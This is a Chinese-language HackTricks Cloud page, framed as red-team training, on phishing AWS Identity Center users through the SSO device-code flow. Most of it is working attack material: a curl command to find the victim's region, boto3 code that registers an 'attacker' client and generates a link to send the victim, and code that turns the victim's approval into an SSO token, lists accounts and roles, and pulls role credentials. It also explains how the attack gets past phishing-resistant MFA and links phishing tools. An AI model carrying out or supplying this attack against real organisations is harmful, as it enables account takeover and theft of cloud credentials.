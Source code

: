 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## AWS 设备代码钓鱼

最初在 [**这篇博客文章**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/) 中提出，可以向使用 AWS SSO 的用户发送一个 **链接**，如果 **用户接受**，攻击者将能够获取一个 **令牌以冒充用户** 并访问用户在 **Identity Center** 中能够访问的所有角色。

为了执行此攻击，前提条件是：

* 受害者需要使用 **Identity Center**
* 攻击者必须知道受害者使用的 **子域名** `<victimsub>.awsapps.com/start`

仅凭上述信息，**攻击者将能够向用户发送一个链接**，如果 **接受**，将授予 **攻击者对 AWS 用户** 账户的访问权限。

### 攻击

1. **查找子域名**

攻击者的第一步是找出受害者公司在其 Identity Center 中使用的子域名。这可以通过 **OSINT** 或 **猜测 + BF** 来完成，因为大多数公司会在这里使用其名称或名称的变体。

有了这些信息，就可以获取配置 Identity Center 的区域：
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **生成受害者的链接并发送**

运行以下代码以生成 AWS SSO 登录链接，以便受害者可以进行身份验证。\
在演示中，在 Python 控制台中运行此代码，并且不要退出，因为稍后您将需要一些对象来获取令牌：
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
发送生成的链接给受害者，利用你出色的社会工程技巧！

3. **等待受害者接受**

如果受害者**已经登录AWS**，他只需接受授予权限；如果没有，他需要**登录然后接受授予权限**。\
这就是现在提示的样子：

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **获取SSO访问令牌**

如果受害者接受了提示，运行此代码以**生成一个冒充用户的SSO令牌**：
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO 访问令牌是 **有效期为 8 小时**。

5. **冒充用户**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### 针对不可钓鱼的 MFA 进行钓鱼

有趣的是，之前的攻击**即使在使用“不可钓鱼的 MFA”（webAuth）的情况下也能奏效**。这是因为之前的**工作流程从未离开所使用的 OAuth 域**。与其他钓鱼攻击不同，用户需要替代登录域，在设备代码工作流程中，**代码由设备已知**，用户即使在不同的机器上也可以登录。如果接受了提示，设备仅凭**知道初始代码**，就能够**为用户检索凭据**。

有关更多信息，请[**查看此帖子**](https://mjg59.dreamwidth.org/62175.html)。

### 自动化工具

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## 参考文献

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或**在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
